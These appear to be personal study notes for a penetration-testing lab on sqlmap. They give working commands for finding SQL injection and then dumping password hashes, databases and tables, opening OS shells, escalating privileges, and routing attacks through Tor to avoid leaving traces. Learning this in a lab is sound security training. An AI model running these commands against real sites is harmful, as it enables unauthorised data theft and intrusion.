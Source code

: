 #+title: Sqlmap
#+author: gabriel

SQLMap provides the capability to test a wide range of database management systems. Supported databases include MySQL, Oracle, PostgreSQL, Microsoft SQL Server, SQLite, and many more.

* basic SQLMap parameters

| Parameter| Description
| -h| Basic help menu
| -hh | Advanced help menu
| -u/--url | Target URL
| --data | Data string to be sent through POST (e.g., "id=1")
| -p | Parameter to test for SQL injection
| --dbms | Specify the target database management system (e.g., MySQL, Oracle)
| --risk | Specify the risk level of the tests (1-3)
| --level | Specify the level of tests to perform (1-5)
| --dump | Used to dump the database contents
| --os-shell | Attempt to open a shell on the target system to execute commands

We'll use the -u parameter to specify the target. After starting the lab and obtaining the provided URL, let's perform a scan with the following command:

: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test"

As a result of our basic scan, SQLMap discovered an SQL Injection vulnerability in the search GET parameter of the target system.

As a result of our basic scan, SQLMap discovered an SQL Injection vulnerability in the search GET parameter of the target system.

** sqli with sqlmap attack via POST data
We will use the --data parameter to specify the POST data and the -p parameter to specify the field we want to test

: sqlmap -u "https://prepared-smasher.europe1.hackviser.space/login.php" --data="username=test&password=test" -p "username"

** detecting the database user
We will use the --current-user parameter to detect the active database user.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --current-user

** detecting the database name
We will use the --current-db parameter to detect the currently used database.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --current-db

** database user password hashes
We will use the --passwords parameter to detect the password hashes of the database users.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --passwords

** listing databases
We will use the --dbs parameter to detect the databases present in the database management system.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --dbs

** listing tables
We will use the --tables parameter to detect tables present in the database management system.

If we want to list tables in a specific database instead of all databases, we need to specify the database using the -D parameter.
: -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --tables -D ecliptica_cars

** select table
Use the parameter ~-T~

** listing table columns
We will use the --columns parameter to detect the table columns in a database. If we want to list the tables in a specific database, we need to specify the database using the -D parameter.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --columns -D ecliptica_cars

** retrieving data
We will use the --dump parameter to fetch data from the tables.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --dump -D ecliptica_cars

* commont attack techniques with sqlmap
In this section, we will discuss common attack techniques that can be performed using SQLMap's --technique parameter and how to apply them.

** Error-Based SQL Injection (E)
Error-Based SQL Injection aims to retrieve database structure information by exploiting error messages generated from SQL queries. SQLMap can automatically detect such vulnerabilities and extract data from the database.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=E

** Blind SQL Injection (B)
Blind SQL Injection attempts to extract data by interpreting the true or false outcomes of database queries. This method is used to extract database content without error messages by relying on true/false responses.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=B

** Union Query SQL Injection (U)
Union Query SQL Injection uses UNION SELECT statements to combine the results of multiple queries and extract information. This technique can also manipulate database queries to obtain additional data.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=U

** Stacked Queries SQL Injection (S)
Stacked Queries SQL Injection allows multiple SQL statements to be executed within a single query. This enables an attacker to run additional commands on the database, gaining more control.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=S

** Time-Based Blind SQL Injection (T)
Time-Based Blind SQL Injection aims to extract information by monitoring the response time of database queries. When a query is true, it introduces a delay in the response, allowing the attacker to determine the correctness of the query.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=T

** Out-of-Band SQL Injection (Q)
Out-of-Band SQL Injection causes the database server to interact with an attacker-controlled server, exfiltrating information.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=Q

* Advanced Features of SQLMap
SQLMap offers many advanced features that allow users to conduct in-depth penetration testing. Let's discuss some of the advanced features provided by SQLMap along with usage examples.

** scanning with http request file
In this method, scanning is performed using a file that contains captured HTTP requests, usually exported from burp
: sqlmap -r request_file.txt

** scanning with post data
SQLMap can scan requests sent with POST data. This feature is particularly useful for form-based logins and applications where data is sent using the POST method.
: sqlmap -u "http://example.com/login.php" --data="username=admin&password=admin"

** session management
SQLMap saves the scanning process in a session file, allowing users to save the scan status and continue from that point later. This feature is especially useful for large and time-consuming scans.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --session=session_name

** custom queries and sql commands
With SQLMap, users can send their own SQL queries and execute specific database commands. This feature is beneficial for advanced users who want to go beyond standard SQLMap operations.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="SELECT * FROM users"

** http request parameters
SQLMap offers various parameters to manipulate HTTP requests:

 * --cookie: Can be used to add custom cookies for session management required applications.
 * --user-agent: Changes the User-Agent value used in requests.
 * --referer: Used to customize the Referer header.

: sqlmap -u "http://example.com/vulnerable.php?id=1" --cookie="PHPSESSID=abc123" --user-agent="Mozilla/5.0" --referer="http://example.com"

** tor and proxy support
SQLMap supports anonymous scanning via the Tor network and can send requests through specified proxy servers. This helps to perform tests without leaving traces.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --tor --proxy="http://proxy_address:port"

** access to Operating system shell
 * --os-shell: Provides an interactive operating system shell.
 * --os-pwn: Provides an external connection shell like Meterpreter or VNC.
 * --os-cmd: Executes a specific operating system command.
 * --priv-esc: Attempts to escalate database process user privileges.
